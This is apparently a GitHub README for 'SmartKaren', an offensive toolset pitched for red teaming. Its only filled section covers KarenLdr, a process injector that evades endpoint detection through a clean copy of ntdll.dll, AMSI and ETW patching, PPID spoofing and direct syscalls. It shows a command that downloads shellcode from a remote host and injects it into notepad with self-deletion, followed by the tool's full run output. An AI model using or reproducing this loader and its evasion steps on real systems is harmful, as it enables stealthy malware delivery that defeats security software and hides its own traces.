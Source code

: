 # SmartKaren
A series of custom offensive toolset and utilities written in C# and Rust. This project is developed to explore AV evasion techniques for aiding red teaming operations. 

## KarenLdr
KarenLdr is a compact Process Injector with various evasion techniques built-in to it. To evade static signature, KarenLdr leverages low level NT**API calls (with the exception of AMSI & ETW patching) and a modified version of D/Invoke library. At runtime, a fresh copy of `ntdll.dll` is loaded into the process. The original ntdll.dll that was hooked by EDR is left untouched. All NT*API are then exported and called from the clean copy of ntdll.dll instead. This EDR evasion method is especially effective because the integrity of EDR hooks are not tampered with.
```
C:\>KarenLdr.exe -u "https://192.168.231.128:443/beacon.bin" -t notepad -p 9524 -k 
     _        _______  _______  _______  _        _        ______   _______
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|( \      (  __  \ (  ____ )
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (      | (  \  )| (    )|
    |  (_/ / | (___) || (____)|| (__    |   \ | || |      | |   ) || (____)|
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |      | |   | ||     __)
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |      | |   ) || (\ (
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (____/\| (__/  )| ) \ \__
    |_/    \/|/     \||/   \__/(_______/|/    )_)(_______/(______/ |/   \__/

 KarenLdr: D/Invoke + NT*API + Manual Mapping + Direct Syscall + AMSI & ETW Patching + PPID Spoofing

  -u, --url      Required. Remote URL address for raw shellcode.

  -t, --target   Specify the target/victim process. Default: Self-injection

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -s, --syscall  Enable Direct Syscall. Default: Manual Mapping

  -h, --help     Display help screen manual.
  
|--------------
| Payload       : https://192.168.231.128:443/beacon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 9524
| Self Destruct : True
|--------------

[>] Patching Event Tracing for Windows (ETW)
    |-> Address of ntdll.dll: 0x7FFD8DEF0000
    |-> Location of EtwEventWrite(): 0x7FFD8DF3F1F0
    |-> Patching Memory: 0x00000020 -> 0x04
    |-> Restoring Memory: 0x04 -> 0x00000020

[>] Patching Anti Malware Scan Interface (AMSI)
    |-> Address of AmsiScanBuffer(): 0x7FFD75B83860
    |-> Successfully Patched AMSI!

[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 22232

[>] Fetching Payload
    |-> Payload Retrieved Successfully!

[>] Resolving Addresses of ntdll.dll
    |-> Original ntdll.dll: 0x7ffd8def0000
    |-> New copy of ntdll.dll: 0x29cb56e0000

[>] NtCreateSection()
    |-> New Section Created!

[>] NtMapViewOfSection()
    |-> New Section Mapped!

[>] Copied Shellcode to Memory!

[>] NtMapViewOfSection()
    |-> Memory Region Mapped to Target Process!
    |-> Base Address: 0x209ED370000

[>] NtQueueApcThread()
    |-> Queueing APC!

[>] NtSetInformationThread()
    |-> Thread Priority Set!

[>] NtResumeThread()
    |-> Resuming Thread!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] KarenLdr.exe removed from disk!
```

## KarenDumpedMi

## Karen2Gadget
